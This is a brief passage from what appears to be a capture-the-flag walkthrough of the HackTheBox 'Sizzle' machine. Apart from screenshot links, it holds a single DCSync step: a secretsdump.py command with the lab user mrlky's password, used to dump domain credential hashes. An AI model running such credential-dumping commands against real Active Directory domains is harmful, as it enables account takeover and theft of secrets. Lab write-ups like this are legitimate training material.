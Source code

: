 

![image-20221217233026587](./images/image-20221217233026587.png)



![image-20221217233348166](./images/image-20221217233348166.png)



## mrlky dcsync

have mrlky creds, mrlky have the dcsync privilege.

dcsync attack, obtain the creds.

```bash
secretsdump.py htb.local/mrlky:'Football#7'@sizzle.htb.local
```

![image-20221218020332323](./images/image-20221218020332323.png)